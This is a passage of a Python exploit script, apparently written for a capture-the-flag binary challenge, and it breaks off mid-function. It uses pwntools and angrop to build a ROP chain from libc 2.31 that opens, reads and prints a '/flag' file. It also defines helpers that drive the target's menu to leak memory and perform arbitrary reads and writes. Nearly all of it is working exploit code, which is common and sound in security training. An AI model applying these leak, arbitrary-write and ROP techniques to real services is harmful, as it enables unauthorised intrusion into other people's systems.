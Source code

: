```python
    p = remote(REMOTE, REMOTEPORT)
else:
    p = process(PROGNAME)

e = ELF(PROGNAME)
libc = e.libc

########## Helper functions ##############

# generates our ROP chain
def get_chain(path_buf, flag_buf, base):
    r = angr.Project("./libc-2.31.so")
    rop = r.analyses.ROP()
    gadget_file = ".gadgets-crap"
    if os.path.isfile(gadget_file):
        rop.load_gadgets(gadget_file)
    else:
        with open(gadget_file, "wb+"):
            pass
        rop.find_gadgets()
        rop.save_gadgets(gadget_file)
    # reference: https://github.com/salls/angrop
    chain = rop.write_to_mem(path_buf, b"/flag\x00")
    chain += rop.do_syscall(3, [0])                         # close fd 0
    chain += rop.do_syscall(2, [path_buf, os.O_RDONLY, 0])  # open flag->fd 0
    chain += rop.do_syscall(0, [0, flag_buf, 0x100])        # read->flag_buf
    chain += rop.do_syscall(1, [1, flag_buf, 0x100])        # write flag_buf->stdout
    #print(chain.print_payload_code())
    return chain.payload_str(base_addr=base)

def menu():
    p.recvuntil('>')
def get_leak(payload):
    p.sendline('3')
    p.sendlineafter("feedback: ", payload)
    p.sendlineafter('(y/n)', 'n')
    menu()
    p.sendline('4')
    p.recvuntil('feedback: ')
    leak = p.recvline()[:-1] # trim /n
    diff = 8 - len(leak)
    leak += b'\x00'*diff    # pad to 8 bytes
    menu()
    return u64(leak)
def write_addr(where, what):
    p.sendline('2')
    payload = where + " " + what
    p.sendlineafter('value:', payload)
    menu()
def read_addr(addr):
    p.sendline('1')
    p.sendlineafter('addr: ', addr)
    p.recvuntil('0x', drop=True)
    ret = int(p.recvline(), 16)
    menu()
    return ret

# assume we have enough writes
def write_block(where, what):
    # split payload into 8 bytes chunks
    n = 8
    chunk_list = [ what[i:i+n] for i in range(0, len(what), n) ]
    cur_where = where
```